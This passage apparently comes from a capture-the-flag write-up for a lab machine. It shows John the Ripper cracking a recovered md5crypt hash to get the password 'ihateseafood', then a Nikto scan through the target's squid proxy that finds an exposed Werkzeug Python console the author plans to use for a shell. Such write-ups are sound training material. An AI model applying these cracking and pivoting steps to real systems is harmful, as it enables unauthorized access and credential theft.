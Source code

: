 ```bash
kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
```
This file has a hash stored, which we can just use john to crack.
```bash
root@kali:~/Desktop# john  passwords --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 0.40% (ETA: 11:50:12) 0g/s 34540p/s 34540c/s 34540C/s caterin..cars12
0g 0:00:00:03 0.81% (ETA: 11:52:11) 0g/s 34727p/s 34727c/s 34727C/s march1996..manutd2
0g 0:00:00:17 3.55% (ETA: 11:54:00) 0g/s 32778p/s 32778c/s 32778C/s samsungi..samsung19
0g 0:00:00:22 4.46% (ETA: 11:54:15) 0g/s 32025p/s 32025c/s 32025C/s 142050..14191
0g 0:00:00:28 5.63% (ETA: 11:54:19) 0g/s 31808p/s 31808c/s 31808C/s incase53..inbred
0g 0:00:00:30 6.07% (ETA: 11:54:16) 0g/s 31948p/s 31948c/s 31948C/s cheetah08..cheesycheese
ihateseafood     (kalamari)
```
We now have a resultant user of kalamari and a password of ihateseafood.  Lets visit 127.0.0.1 to see if they're serving a website.


Nikto Scan
--------

![](https://preview.ibb.co/mMPrb5/shorty.png)
Nothing jumps out and the app didn't appear to be vulnerable to any SQL injection or anything obvious, so I chose to run a quick nikto scan.

```bash
root@kali:~/Desktop# nikto -host 127.0.0.1 -useproxy http://10.10.10.21:3128
- Nikto v2.1.6
---------------------------------------------------------------------------
Proxy ID: kalamari

Proxy Pass: 
+ Target IP:          127.0.0.1
+ Target Hostname:    127.0.0.1
+ Target Port:        80
+ Proxy:              10.10.10.21:3128
+ Start Time:         2017-08-03 14:07:29 (GMT1)
---------------------------------------------------------------------------
+ Server: Werkzeug/0.10.5-dev Python/2.7.12+
+ Retrieved via header: 1.1 joker (squid/3.5.12)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-cache' found, with contents: MISS from joker
+ Uncommon header 'x-cache-lookup' found, with contents: MISS from joker:3128
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server banner has changed from 'Werkzeug/0.10.5-dev Python/2.7.12+' to 'squid/3.5.12' which may suggest a WAF, load balancer or proxy is in place
+ Uncommon header 'x-squid-error' found, with contents: ERR_INVALID_REQ 0
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3092: /console: This might be interesting...
+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
+ Scan terminated:  20 error(s) and 9 item(s) reported on remote host
+ End Time:           2017-08-03 14:18:38 (GMT1) (669 seconds)
```
The /console page does indeed look interesting, and visiting it yields a python developer console.  Perfect, so we can now execute arbitrary python code, and give ourselves a shell.  
